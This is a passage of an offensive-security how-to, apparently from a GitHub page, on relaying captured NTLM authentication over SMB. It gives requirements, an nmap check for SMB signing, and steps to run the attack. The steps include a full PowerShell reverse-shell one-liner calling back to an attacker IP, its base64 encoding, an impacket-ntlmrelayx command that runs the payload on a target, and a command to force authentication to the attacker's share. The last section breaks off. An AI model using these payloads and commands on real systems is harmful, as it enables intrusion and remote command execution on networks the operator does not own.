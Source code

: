 Instead of capturing hashes, they can be relayed for authentication instead. 
# Requirements
* SMB Signing must be disabled/not enforced.
* Relayed admin credentials must be admin for any real value.
* UAC remote restrictions disabled (unless using local Administrator user for the attack)
Check using the following nmap script:
```bash
nmap --script=smb2-security-mode.nse -p445 $(IP_ADDRESS) -Pn
```
Ideally, result is "message singing enabled but not required".
# How to do it
## Relaying local user accounts
### Step 1:
Construct powershell payload. Do the following commands to construct an encoded reverse shell payload:
```powershell
pwsh
$Text = '$client = New-Object System.Net.Sockets.TCPClient("[IP ADDRESS]",[PORT]);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
$EncodedText =[Convert]::ToBase64String($Bytes)
$EncodedText
# Copy the encoded text
exit
```
### Step 2:
Run netcat listener.
### Step 3:
Run ntlmrelayx.   
```bash
impacket-ntlmrelayx --no-http-server -smb2support -t [TARGET IP] -c "powershell -enc JABjAGwAaQBlAG4AdA..."
```
Note the "-c" runs a base64 encoded powershell one-liner from revshells.
### Step 4:
Wait or force authentication to the malicious file share. i.e:
```batch
dir \\[ATTACKER IP]\share
```
Relaying domain accounts
In order to obtain hashes from a domain user, we'll need to log in to a system using domain credentials.
